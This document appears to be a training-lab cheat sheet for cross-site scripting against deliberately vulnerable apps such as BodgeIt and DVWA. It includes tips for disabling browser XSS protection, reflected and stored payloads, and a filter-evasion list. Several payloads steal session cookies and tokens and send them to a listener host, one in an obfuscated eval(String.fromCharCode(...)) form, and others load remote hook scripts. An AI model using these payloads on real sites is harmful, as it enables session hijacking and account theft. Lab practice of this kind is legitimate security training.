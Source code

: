 # A3 Cross-Site Scripting (XSS)


## Refelcted

Got `ERR_BLOCKED_BY_XSS_AUDITOR` in your Chrome ? Try the `Iceweasel` in the VM ;]
Or just set `X-XSS-Protection: 0` in burp via `Proxy > Options > Match and Replace`
Or run Chrome/Chromium with `--disable-xss-auditor`

### BodgeIt store

`http://10.6.6.13:8080/bodgeit/search.jsp?q=%3Cscript%3Ealert%28%27XSS%27%29%3B%3C%2Fscript%3E`

`http://10.6.6.13:8080/bodgeit/search.jsp?q=<sCrIpt src='http://10.6.6.13:3000/hook.js'></ScRipT>`


### DVWA
Try it on `http://owasp.local/dvwa/vulnerabilities/xss_r`

GET `http://owasp.local/dvwa/vulnerabilities/xss_r/?name=%3Cimg+src%3Dx+onerror%3Dalert%28document.cookie%29%3E#`

```
<script>alert("XSS");</script>
<img src=x onerror=alert(document.cookie)>
```

## Stored


[BodgeIt / registration](http://10.6.6.13:8080/bodgeit/register.jsp)

`hacker@citadelo.com<scriPt>alert("XSS");</scRipt>`

trigger it 

`http://10.6.6.13:8080/bodgeit/admin.jsp`


[BodgeIt / Contact](http://10.6.6.13:8080/bodgeit/contact.jsp)

`<sCriPt>alert(document.cookie);</scRipT>`


priklad

Start a simple HTTP server as a listener

`python -m SimpleHTTPServer 8888`

```
</textarea><script>document.getElementById('header').innerHTML+='<img src="http://10.6.6.13:8888/?'+document.cookie+'&'+location.search+'"/>';</script><textarea cols="0" rows="0" style="display:none">
```

```
Sed scelerisque sed leo in rutrum. Etiam aliquet, nisl at facilisis ullamcorper, ante eros gravida mauris, quis gravida dolor ipsum at massa. Nam et ante eget sem volutpat dignissim eu ut diam. Etiam convallis dui at semper egestas. Curabitur dignissim, velit id suscipit ullamcorper
</textarea><script>document.getElementById('header').innerHTML+='<img src="http://10.6.6.13:8888/?'+document.cookie+'"/>';</script><textarea cols="0" rows="0">
```

```
document.getElementById('header').innerHTML+='<img src="http://10.6.6.13:8888/?'+document.cookie+'&token='+location.search.split('token=')[1].split('&')[0]+'"/>';
```

```
Sed scelerisque sed leo in rutrum. Etiam aliquet, nisl at facilisis ullamcorper, ante eros gravida mauris, quis gravida dolor ipsum at massa. Nam et ante eget sem volutpat dignissim eu ut diam. Etiam convallis dui at semper egestas. Curabitur dignissim, velit id suscipit ullamcorper</textarea><script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,103,101,116,69,108,101,109,101,110,116,66,121,73,100,40,39,104,101,97,100,101,114,39,41,46,105,110,110,101,114,72,84,77,76,43,61,39,60,105,109,103,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,54,46,54,46,54,47,63,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,43,39,38,116,111,107,101,110,61,39,43,108,111,99,97,116,105,111,110,46,115,101,97,114,99,104,46,115,112,108,105,116,40,39,116,111,107,101,110,61,39,41,91,49,93,46,115,112,108,105,116,40,39,38,39,41,91,48,93,43,39,34,47,62,39,59));</script><textarea cols="0" rows="0">
```

`</textarea><script src=http://10.6.6.13:3000/hook.js><textarea>`



## DOM based

AwesomeShop

`http://10.6.6.13/oc/index.php?route=common/home#default=Slovak`

`http://10.6.6.13/oc/index.php?route=common/home#default=%3Cscript%3Ealert%281%29%3C/script%3E`


### Prezentacia

```
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG SRC=# onmouseover="alert('xxs')">
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
<IMG SRC='vbscript:msgbox("XSS")'>
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
<STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>
¼script¾alert(¢XSS¢)¼/script¾
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
<svg/onload=alert(’XSS')>

```


JSFuck
```
<script>
[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()
</script>

```
